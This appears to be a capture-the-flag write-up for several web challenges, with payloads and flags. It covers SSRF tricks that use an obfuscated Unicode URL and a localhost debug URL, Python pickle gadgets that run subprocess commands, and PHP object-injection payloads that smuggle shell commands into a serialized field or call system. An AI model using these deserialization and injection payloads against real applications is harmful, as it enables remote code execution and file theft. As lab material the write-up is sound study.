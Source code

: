 FLAG{gopher://http_post}

## SSRFrog
在原始碼中看到要填入的網址

使用工具: https://splitline.github.io/domain-obfuscator/
payload: `hTtp:\/Ⓣℋᵉ．ⅽ⁰Ⓞ０o⓪Ⓛ-ﬂ㊹④Ｇ｡ₛℯℜｖⒺＲ.㏌ⓣᴱℝ㎁ℒ`

flag{C0o0o0oL_baby_ssrf_trick}

## Debug
payload: `http://localhost/debug?a=https://`

FLAG{intro2ssrf}

## Pickle
使用以下 code，得知 flag 檔案名稱
```python=
class A:
    def __reduce__(self): return (__import__('subprocess').check_output, (['ls', '-al', '/'],))

base64.b64encode(pickle.dumps({"name": A(), "age":1}))
```

讀取檔案
```python=
class B:
    def __reduce__(self): return (__import__('subprocess').check_output, (['cat', '/flag_5fb2acebf1d0c558'],))

base64.b64encode(pickle.dumps({"name": B(), "age":1}))
```

FLAG{p1ckle_r1ck}

## Baby Cat
使用以下 code，得知 flag 檔案名稱
```php=
class Cat {public $name="'; ls -al /; #";}
base64_encode(serialize(new Cat()))
```

讀取檔案
```php=
class Cat {public $name="'; cat /flag_5fb2acebf1d0c558; #";}
base64_encode(serialize(new Cat()))
```

FLAG{d3serializable_c4t}

## Magic Cat
```php=
class Caster{public $cast_func='system';}
class Cat{public $magic; public $spell; function __construct($spell){$this->magic=new Caster(); $this->spell=$spell;}}

# 得知 flag 檔案名稱
base64_encode(serialize(new Cat("ls -al /")))

# 讀取檔案
base64_encode(serialize(new Cat("cat /flag_23907376917516c8")))
```
